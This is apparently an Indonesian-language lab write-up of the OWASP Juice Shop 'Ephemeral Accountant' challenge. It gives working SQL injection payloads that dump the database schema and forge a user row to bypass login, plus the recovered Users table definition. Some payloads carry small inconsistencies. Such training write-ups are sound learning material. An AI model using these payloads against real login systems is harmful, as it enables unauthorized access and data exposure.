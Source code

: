 # Ephemeral Accountant

## Link Resource

https://juice-shop.herokuapp.com/#/score-board?categories=Injection&showDisabledChallenges=false

## Jawaban + Bukti

![acc](../../img/ephemeral-accountant/kelas.png)

### Step-by-step

![acc](../../img/ephemeral-accountant/kelas.png)

1. pada soal kali ini kita diminta untuk masuk menggunakan akun (yang tidak ada) `acc0unt4nt@juice-sh.op` tanpa pernah mendaftarkan pengguna tersebut.

![acc](../../img/ephemeral-accountant/skema.png)

2. kita dapat menggunakan payload berikut untuk menyadap informasi struktur tabel (schema) dari database dan kita dapat mengetahui

```
foobar')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--
```

3. yang mana kemudian kita dapat mendapatkan struktur tabel Users di database.

```
"CREATE TABLE `Users` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `username` VARCHAR(255) DEFAULT '', `email` VARCHAR(255) UNIQUE, `password` VARCHAR(255), `role` VARCHAR(255) DEFAULT 'customer', `deluxeToken` VARCHAR(255) DEFAULT '', `lastLoginIp` VARCHAR(255) DEFAULT '0.0.0.0', `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg', `totpSecret` VARCHAR(255) DEFAULT '', `isActive` TINYINT(1) DEFAULT 1, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `deletedAt` DATETIME)"
```

4. kemudian kita dapat membuat user palsu mengguankan payload berikut

```
' UNION SELECT * FROM (SELECT 200 AS 'id', '' AS 'username', 'accoUnt4nt@juice-sh.op' AS 'email', 'abcd1234' AS 'password', 'accountant' AS 'role', '127.0.0.1' AS 'lastLoginIp', '' AS 'profileImage', '' AS 'totpSecret', '' AS 'isActive', '' AS 'createdAt', '' AS 'updatedAt', '' AS 'deluxToken', NULL AS 'deletedAt')--
```

5. kemudian kita dapat menggunakan burpsuite untuk menyusupkan payload menggunakan user dengan membypass sistem

![acc](../../img/ephemeral-accountant/login.png)

6. setelah itu kita send to repeater dan ubah bagian email dengan payload berikut :

```sh
'UNION SELECT * FROM (SELECT 20 AS 'id','' AS 'username','acc0unt4nt@juice-sh.op' AS 'email','abcd1234' AS 'password','accounting' AS 'role','127.0.0.1' AS 'lastLoginIp','' AS 'profileImage','' AS 'topSecret',1 AS 'isactive','' AS 'createdAt','' AS 'updatedAt','123' AS 'deluxToken',NULL AS 'deletedAt')--
```

7. kemudian saat sudah memasukkan payload lalu melakukan send

![acc](../../img/ephemeral-accountant/done.png)

### Catatan

-
